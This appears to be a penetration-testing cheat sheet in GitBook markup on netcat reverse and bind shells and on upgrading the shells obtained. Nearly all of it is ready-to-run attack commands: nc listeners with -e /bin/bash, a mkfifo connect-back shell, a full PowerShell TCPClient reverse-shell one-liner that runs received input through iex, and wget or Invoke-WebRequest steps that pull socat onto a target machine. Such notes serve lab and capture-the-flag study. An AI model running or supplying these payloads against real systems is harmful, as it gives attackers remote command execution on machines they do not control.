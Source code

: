 # NetCat (nc)

### Listening

{% code title="Reverse-Shell" %}
```sh
nc -lvnp <port-number>
# Listen - Verbose - resolve_host_name - Port_number
# -e can be used for executing. EX: nc -lvnp <Port> -e /bin/bash
```
{% endcode %}

{% code title="Bind-Shell" %}
```sh
nc -lvnp <PORT> -e /bin/bash
```
{% endcode %}



### Connect Back

{% code title="Reverse Shell" %}
```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
{% endcode %}

{% hint style="info" %}
for Powershell on new windows systems, there's a good code for connect back in reverse shell:

{% code overflow="wrap" %}
```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
{% endcode %}
{% endhint %}



{% code title="Bind Shell" %}
```sh
nc <target-ip> <chosen-port>

# OR

mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
{% endcode %}





***

## improving shell

### establishing shell

{% tabs %}
{% tab title="Method 1 : Python" %}
{% code title="Step 1" %}
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
```
{% endcode %}

{% code title="Step 2" %}
```sh
export TERM=xterm
```
{% endcode %}

{% code title="Step 3" %}
```bash
stty raw -echo; fg
```
{% endcode %}

> with step 3 you would lose your terminal abilities. for getting them back just type `Reset`.
{% endtab %}

{% tab title="Method 2 : rlwrap (Recommended)" %}
```bash
sudo apt install rlwrap
```

```bash
sudo rlwrap nc -lvnp <port>
```

{% code title="for establishing the nc" fullWidth="true" %}
```bash
stty raw -echo; fg
```
{% endcode %}
{% endtab %}

{% tab title="Method 2 : socat" %}
{% code title="for establishing using this method you have to run one of these codes in target machin" overflow="wrap" %}
```bash
# for establishing using this method you have to run one of these codes in target machin

wget <LOCAL-IP>/socat -O /tmp/socat
# OR
sudo python3 -m http.server 80
```
{% endcode %}

you can do this :arrow\_down: for better results:

```bash
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
{% endtab %}
{% endtabs %}

### fixing shell size

```sh
# on your own shell
stty -a

# after writing results, enter them into the shell using these on target's shell:
stty rows <number>
stty cols <number>
```
